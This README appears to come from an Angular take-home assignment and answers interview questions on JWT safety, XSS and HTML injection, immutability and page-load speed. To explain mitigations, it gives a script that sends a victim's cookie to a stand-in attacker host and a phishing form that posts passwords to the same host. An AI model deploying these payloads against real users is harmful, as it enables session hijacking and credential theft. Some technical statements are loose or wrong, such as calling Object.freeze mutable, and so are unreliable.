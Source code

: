 This project was generated with [Angular CLI](https://github.com/angular/angular-cli) version 17.3.6.

## How to setup

Run `npm install` and everything is fine.


## Run the app

Run `ng serve` for a dev server. Navigate to `http://localhost:4200/`. The application will automatically reload if you change any of the source files.

## Unit tests

The core functionality and the behaviors are well tested.

Run `npm run test` for running the tests.

# Answers to the questions

## Question 1: Why is JWT is (or isn't) safe to use this? 

JWT can be safe or unsafe depends on the way we use it. We should not send sensitive information in JWT unless it's encrypted.

JWT is a way of securely transmitting data between 2 parties as JSON object, because it's signed and we can make sure that the senders are who they say they are. It's stateless and self contained. Most common scenario for JWT is to authorize users and allow access routes, services etc. Server can identify who the user is just by decoding the JWT token, which prevents the overhead of reading the user information from database each time a request comes from the client.

Why it is safe?
The only security we get with JWT is the ability to verify whether the token is tampered or not and modified any data in it. That's the only safety we get. If the token is tampered the signature verification fails and server can refuse the request in that case. So we can confirm the senders are the one who they say they are.

It's always safe to keep the JWT in cookie, because server can use HttpsOnly to prevent JavaScript accessing this particular cookie, which prevent XXS attacks. But on the downside the client cannot read the JWT token which sometimes will be needed in the client.

We can set an expiry to the JWT, which server can check and reject the request. Then client has to reauthenticate probably. But sometimes the server can automatically re-issue a new token by refreshing it.

The payload in the JWT token is exposed to other parties, even though it's not possible to change it. This means we must not add sensitive information to the token. We must only keep non-sensitive information such as user claims, user roles, user email, name and etc. Because any man-in-the middle who gets to intercept the data packets going through the internet can read the contents of the JWT easily.

## Question 2: Messages sent from one user to another, can contain HTML, write two attack vectors and mitigation.

### Attack vector 1: Cross Site Scripting (XSS)
This is when an attacker trying to execute a script in victim’s browser. And steal sensitive information stored in the browser like user session token and can lead to session hijacking. XSS attacks can take place anywhere a web app outputs/renders a user input in the web app without validating or encoding it.

Here is a simple example, assume that the bad player send a message that contains something like below:

```html
Hellow..
<script>
  document.location = "http://attackers-website.com/steal.php?cookie=" + document.cookie;
</script>
```

When the victim receives this message and the application renders it in the victim's page, the script will be immediately executed and redirect the victim to the specified website with the cookie in the query parameter. And the attacker can use this cookie to hijack the victim's session.

### Attack vector 1 mitigation:
We can do multiple things to mitigate the risk of session hijacking. These are just few steps to secure, but always we have to follow security practices and audits.

#### Step 1
If you want to render a user's message in another user's browser, use the safe api in JS, which is element.textContent than element.innerHTML. This way the browser does not parse it as HTML.

#### Step 2
Make sure to store the identity/session related token in HttpOnly cookies. These type of cookies cannot be accesses by the JavaScript and it will be sent with the requests only to the origin domain and nowhere else.

#### Step 3
Content Security Policy (CSP)
This is also an added layer of security to prevent XSS. These are special headers are returned from the server that kind of whitelists the domains that the browser trusts when running the application. The browser should be compatible with CSP which is the case in almost every browser now. 
Now the browser will only execute scripts from those allowed domains, all other scripts including inline scripts like in the above mentioned example will be blocked, and event-handling HTML attributes (onclick, onerror) will also be blocked by the browser.

Alternatively, the <meta> element can also be used in the root html file to configure CSP, for example:
```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src 'self'; img-src https://*; child-src 'none';" />
```

#### Step 4
Implement proper input sanitization, we must sanitize all user submitted HTML content and remove or disable any executable scripts. This can be done by removing elements like <script>, <img>, and all known event handlers such as "onerror", "onload", "onclick", or escaping them so they are displayed as plain text when rendered.
As for the above example, the sanitisation might include converting the above element to HTML character entities like below:

```html
  Hello..
  &lt;script&gt;
    document.location = &quot;http://attackers-website.com/steal.php?cookie=&quot; + document.cookie;
  &lt;/script&gt;
```

### Attack vector 2: Html Injection
This is similar to XSS, but malicious html elements are sent in the message instead of scripts, that can alter the page to create forms to phish passwords or any other sensitive information of the user, or include malicious links, check the below example:

```html
<p>Please update your password right now to prevent getting backed:</p>
<form action="http://attackers-website.com" method="POST">
    Current Password: <input type="password" name="password"/>
    New Password: <input type="password" name="password"/>
    <input type="submit" value="Update"/>
</form>
```

This prompts user to enter the current password, and when clicked Update button, the password it will be sent to attacker's website.

### Attack vector 2 mitigation:

#### Step 1: Use the safe api
Use the safe api which is element.textContent than element.innerHTML for showing the user input in the browser.
Implement input validations:
Validate if the user input is in the expected shape and meets certain criteria.

#### Step 2: Sanitize user input: 
Done by removing or replacing characters that have special meaning in HTML

#### Step 3: Implement output encoding: 
In addition to above, we can encode user input by converting the special characters to HTML char entities.

## Question 3: Explain the difference between mutable and immutable objects. Examples, pros and cons, how to achieve immutability.

### Difference between immutable and mutable objects.
Mutable objects are those state or value can be changed after created. 
Immutable objects cannot be changed once they are created. Only new objects can be created with new memory reference.

### Examples of immutable objects in JS
strings, numbers, booleans immutable in JavaScript

### Pros and cons
Pros: 
- Immutable objects are predictable as their state never change. Avoids unintended side effects when it flows through the app and shared among many components. 
- Concurrent safe: Safe to use in a concurrent environment as they don’t need locks and no fear of race conditions. Easy for atomic operations.
- Undo/Redo: Easy to maintain a history of states with immutable objects, an example if React dev tool's time travel feature, that we can see all changes to an object as history.
- Efficient change detection in UI frameworks: Immutable objects are crucial in front end applications where the DOM is reconciliated, it's easy to decide on re-rendering if it's a new reference, otherwise we have to deep compare objects. 

Cons:
- Memory overhead: Can lead to increased memory because every change require creating new objects.
- Garbage collector works heavy: Frequent creation of new objects increases pressure on the garbage collector, which can lead to performance issues.
- Performance: May cause performance overhead due to the need for creating new objects instead of modifying existing ones.
- Code complexity and readability

### How to implement immutability
- We can use Object.freeze method to create a mutable object natively in JS. Objects created by this prevents adding new properties, existing properties from being removed. However, it only works shallowly.

- Use immutable.js to create many types of immutable data structures. 

- In JS we have operations that do not modify the original data but instead return new data. Ex: map(), filter(), and reduce() are immutable operations.

## Question 4: If you would have to speed up the loading of a web-application, how would you do that?

### Optimize and lazy load modules
Splitting the web application into smaller modules can drastically reduce the initial load time. When modules are lazy loaded, it only downloads the code necessary for the initial view, loading other features on demand.

### Optimize assets by compressing them
Heavy high resolution images, scripts and css styles can really slowdown the application. Compress them and minify them. Use WebP images which are smaller in size but high quality.

### SSR - Server side rendering
This will load the web app very faster by quickly displaying a fully rendered page to the user, which is also effective for SEO and the performance of the first DOM paint.

### Lazy load images and Iframes
Render the view first and then load expensive images.

### Prioritize visible content and limit https request on landing page
Only fetch absolutely required data to show the visible content. Then we can lazy load any additional data. In this way the user get to see the page soon.

### Implement caching and CDN
Consider caching the content in the browser that are needed for the landing page if they are not rapidly changing. Use CDN can drastically improve performance, it will cache cache static assets in multiple locations and deliver the content to the user from the closest location. 

## Question 4: Choices between own hardware and company supplied OS vs Standard hardware with own choice of software.

I like to choose my own hardware with own software :D But anyway I believe in a company like Zivver, which specializes in email encryption, security is likely a top priority. Therefore I guess the employees are given machines with special OS, and that maybe crucial to ensure all security protocols and stands are applied. 

